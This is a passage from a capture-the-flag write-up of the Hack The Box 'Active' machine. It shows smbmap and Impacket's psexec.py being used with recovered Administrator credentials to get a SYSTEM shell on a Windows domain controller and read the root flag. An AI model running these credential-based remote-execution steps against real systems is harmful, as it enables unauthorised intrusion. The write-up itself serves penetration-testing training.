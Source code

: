 
## Obtaining Remote Code Execution and the Root Flag

We now have a new set of credentials (active.htb\\Administrator:Ticketmaster1968) and can run `smbmap` and see what permissions we have. 

```default
kali@kali:~/Documents/CTF/HTB/Machines/Active$ smbmap -u Administrator -p Ticketmaster1968 -d active.htb -H 10.10.10.100
[+] IP: 10.10.10.100:445        Name: active.htb                                        
[\] Work[!] Unable to remove test directory at \\10.10.10.100\SYSVOL\MQSHAXVORJ, please remove manually
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  READ, WRITE     Remote Admin
        C$                                                      READ, WRITE     Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ, WRITE     Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  READ, WRITE     Logon server share 
        Users                                                   READ ONLY
kali@kali:~/Documents/CTF/HTB/Machines/Active$ 
```


We can see that we have write permissions to multiple shares on the machine. We can utilize this in order to get code execution on the box. To do this we will use `psexec.py` to get a shell.

```default
kali@kali:~/Documents/CTF/HTB/Machines/Active$ psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100      
Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation                               
                                                          
[*] Requesting shares on 10.10.10.100.....   
[*] Found writable share ADMIN$                                                                                      
[*] Uploading file CVntcKlG.exe                           
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service wCvx on 10.10.10.100.....
[*] Starting service wCvx.....    
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
                                                          
C:\Windows\system32>
```

All that is left now is to get the root flag.


```default
C:\Users\Administrator\Desktop>whoami && type proof.txt && ipconfig
nt authority\systemThe system cannot find the file specified.


C:\Users\Administrator\Desktop>whoami && type root.txt && ipconfig
nt authority\system
b5fc7**********************f708b

Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.100
```